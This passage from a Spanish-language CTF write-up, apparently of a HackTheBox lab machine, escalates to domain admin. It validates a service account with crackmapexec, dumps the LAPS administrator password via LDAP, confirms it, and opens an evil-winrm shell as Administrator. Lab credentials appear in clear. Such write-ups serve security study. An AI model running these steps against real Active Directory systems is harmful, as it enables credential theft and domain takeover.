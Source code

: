 ```
crackmapexec smb 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV'
SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.152    445    DC01             [+] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV 
```
La contraseña es correcta, por lo tanto, utilizaremos el propio `crackmapexec` para leer las contraseñas de LAPS, debido a que el usuario pertenece al grupo **LAPS_Readers**:

```
crackmapexec ldap 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' –kdcHost 10.10.11.152 -M laps

SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.152    389    DC01             [+] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV 
LAPS        10.10.11.152    389    DC01             [*] Getting LAPS Passwords
LAPS        10.10.11.152    389    DC01             Computer: DC01$                Password: k./#7,%N)Jz(s;RI)7JPOHDS
```
Observamos que tenemos la contraseña, esta corresponde a la de administrador de dominio, pues LAPS sirve para eso, por lo tanto, vamos a verificar con `crackmapexec` si es correcto:
```
crackmapexec smb 10.10.11.152 -u 'Administrator' -p 'k./#7,%N)Jz(s;RI)7JPOHDS'

SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.152    445    DC01             [+] timelapse.htb\Administrator:k./#7,%N)Jz(s;RI)7JPOHDS (Pwn3d!)
```
Si, asi que utilizando `evil-winrm` entramos:

```
evil-winrm -i 10.10.11.152 -u 'Administrator' -p 'k./#7,%N)Jz(s;RI)7JPOHDS' -S

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```
